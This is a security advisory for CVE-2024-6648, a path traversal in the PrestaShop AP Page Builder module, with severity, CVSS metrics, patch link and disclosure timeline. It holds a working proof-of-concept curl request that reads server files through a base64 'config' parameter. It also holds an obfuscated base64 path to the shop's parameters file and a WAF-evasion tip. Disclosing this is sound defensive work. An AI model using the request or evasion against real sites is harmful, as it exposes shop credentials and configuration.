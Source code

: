 ```yaml
---
layout: post
title: "[CVE-2024-6648] Absolute Path Traversal vulnerability in AP Page Builder versions prior to 4.0.0"
categories: modules
author:
- n0d0n
- incibe.es
meta: "CVE,PrestaShop,Addon,Theme,appagebuilder"
severity: "high (8.7)"
---
```


Ap Page Builder is vulnerable to an absolute path traversal that allows the attacker to include system files by modifying the base64 config param submitted to apajax.php

## Summary

* **CVE ID**: [CVE-2024-6648](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-6648)
* **Published at**: 2025-05-08
* **Advisory source**: Incibe cert
* **Platform**: PrestaShop
* **Product**: Ap Page Builder
* **Impacted release**: < 4.0.0
* **Product author**: Apollo Theme
* **Weakness**: [CWE-36](https://cwe.mitre.org/data/definitions/36.html)
* **Severity**: high (8.7)

## Description

Absolute Path Traversal vulnerability in AP Page Builder versions prior to 4.0.0 could allow an unauthenticated remote user to modify the 'product_item_path' within the 'config' JSON file, allowing them to read any file on the system.

**WARNING** : This exploit uses a Base64 payload, which may bypass most WAFs.

Be aware that it's possible to obfuscate a Base64 string using special characters to evade detection - the base64_decode() function in PHP will silently strip them out.

For example, the following is a perfectly valid Base64 input for base64_decode:
Li4$vLi4-vY#XBwL--2NvbmZpZy9wYXJhb-WV0Z$XJzLnB$ocA==

If you're using ModSecurity 2, prefer base64DecodeExt over base64Decode to mitigate this technique.

## CVSS base metrics

* **Attack Vector (AV)**: Network
* **Attack Complexity (AC)**: Low
* **Attack Requirements (AT)**: None
* **Privileges Required (PR)**: None
* **User Interaction (UI)**: None
* **Confidentiality (VC)**: High
* **Integrity (VI)**: None
* **Availability (VA)**: None

**Vector string**: [CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N](https://nvd.nist.gov/vuln-metrics/cvss/v4-calculator?vector=AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N)

## Proof of concept

POC has been published by n0d0n : https://github.com/n0d0n/CVE-2024-6648/blob/main/CVE-2024-6648.yaml

```bash
curl -v "https://preprod.X/modules/appagebuilder/apajax.php?config=eyJvcmRlcl9ieSI6ImlkX3Byb2R1Y3QiLCJuYl9wcm9kdWN0cyI6IjIiLCJ0b3RhbF9wYWdlIjoxLCAicHJvZHVjdF9pdGVtX3BhdGgiOiAiY29uZmlnLnhtbCIsICJjb2x1bW5zIjogMX0%3d&p=1"
```

## Patch

See this : [Help Center - PrestaShop](https://help-center.prestashop.com/hc/en-us/articles/25492821315346-Ap-Page-Builder-module-compliance)

## Timeline

| Date | Action |
| -- | -- |
| 2024-07-15 | Incibe report the vulnerability |
| 2024-08-16 | Due to the severity of the vulnerability, the large number of affected themes (over 2,000) across multiple marketplaces, and the time required for the module author to patch all of them, TouchWeb requests a one-year delay before public disclosure. |
| 2024-10-16 | Incibe accept a 9 months delay |
| 2025-05-08 | Incibe publish the vulnerability |
| 2025-05-08 | n0d0n publish the POC |



## Links

* [Incibe cert advisory](https://www.incibe.es/incibe-cert/alerta-temprana/avisos/path-traversal-en-ap-page-builder)
* [Prestashop advisory](https://help-center.prestashop.com/hc/fr/articles/25492821315346-Mise-en-conformit%C3%A9-du-module-Ap-Page-Builder)
* [Theme page](https://apollotheme.com/products/ap-pagebuilder-prestashop-module)
* [Public POC](https://github.com/n0d0n/CVE-2024-6648/blob/main/CVE-2024-6648.yaml)
